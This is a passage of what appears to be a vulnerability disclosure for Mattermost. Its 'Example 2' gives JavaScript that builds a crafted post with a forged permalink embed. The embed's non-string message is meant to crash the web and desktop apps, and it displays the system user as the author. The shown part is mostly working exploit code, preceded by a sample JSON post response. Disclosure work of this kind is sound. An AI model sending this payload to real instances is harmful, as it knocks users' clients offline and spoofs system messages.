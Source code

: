 ### Get request to post
```json
{"id":"ju9uuu3xnjy1pymrp8siyk3t1o","create_at":1717763281641,"update_at":1717763281641,"edit_at":0,"delete_at":0,"is_pinned":false,"user_id":"1wt8aoiskjg99dap81jx4zjejc","channel_id":"ucatpix4girt5rp3w4xunng14o","root_id":"","original_id":"","message":"","type":"","props":{"previewed_post":"96nffx8oztncuyyxq7nj7p8seh"},"hashtags":"","pending_post_id":"","reply_count":0,"last_reply_at":0,"participants":null,"metadata":{}}
```

## Example 2 - DoS via non-string message using permalink embed

### Code
```javascript
const MM_INSTANCE_URL = process.env.MM_INSTANCE_URL;
const MM_AUTH_TOKEN = process.env.MM_AUTH_TOKEN;
const MM_USER_ID = process.env.MM_USER_ID;
const MM_CHANNEL_ID = process.env.MM_CHANNEL_ID; // the ID of the channel where we create the post

const MM_TARGET_ID = "96nffx8oztncuyyxq7nj7p8seh"; // ID of a post, which the embed will target
const MM_SHOWN_USER_ID = "teur4prbifnh7dhq5rh3cp7q4c"; // the user shown in the embed, in this example its the userid of system

const metadata = ({
    embeds: [
      {
        type: "permalink",
        data: {
          post_id: MM_TARGET_ID,
          post: {
            id: MM_TARGET_ID,
            user_id: MM_SHOWN_USER_ID,
            channel_id: "doesnt-matter",
            root_id: "",
            original_id: "",
            message: ['This will crash your webapp/desktop app'],
            type: "",
            props: {},
            hashtags: "",
            reply_count: 0,
            last_reply_at: 0,
            participants: [],
            metadata: {},
          },
          team_name: "",
          channel_display_name: "can-be-anything-i-want",
          channel_type: "O",
          channel_id: "",
        },
      },
    ],
})

const body = JSON.stringify({
  file_ids: [],
  message: "",
  props: {
    previewed_post: MM_TARGET_ID,
  },
  channel_id: MM_CHANNEL_ID,
  user_id: MM_USER_ID,
  metadata,
});
```